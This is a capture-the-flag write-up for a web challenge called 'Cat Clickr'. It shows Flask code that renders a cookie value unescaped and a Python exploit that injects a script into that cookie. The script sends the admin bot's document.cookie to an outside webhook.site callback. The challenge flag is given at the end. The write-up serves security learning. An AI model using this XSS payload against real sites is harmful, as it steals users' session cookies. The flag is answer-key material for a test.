 # Cat Clickr

## Challenge

Author: JJ

hey everybody!! imade my first website and its AWESOME!!!

if u dig closely u might even find some secrets…

check it out here: 1337.maplebacon.org

## Walkthrough

This is a classic admin bot visit web chall.

```python
template = """
...
  <p>{{ message }}</p>
  <p>u have clicked {{ count | safe }} times!</p>
...
"""

def generate(count: str) -> str:
    # ...
    return render_template_string(template, message=message, count=count)

@app.route("/stats")
def stats():
    webpage = generate(request.cookies.get("count", 0))
    unique_id = str(uuid4())
    pages[unique_id] = webpage
    adminbot.visit(f"http://127.0.0.1:31337/view?id={unique_id}", secure_cookie)
    return webpage
```

We're able to control `{{count}}` through the `count` cookie to inject javascript and extract the admin bots cookies.

```py
import requests

callback = 'https://webhook.site/redacted'

exploit = """
<script>
window.onload = function() {
    var xmlHttp = new XMLHttpRequest();
    xmlHttp.open("GET", {callback}, false);
    xmlHttp.send(document.cookie);
}
</script>
"""

r = requests.get('http://1337.maplebacon.org/stats', cookies={'count': exploit})
print(r.status_code, r.text)
```

## Solve

`maple{c4t_51d3_cl1ck1ng}`

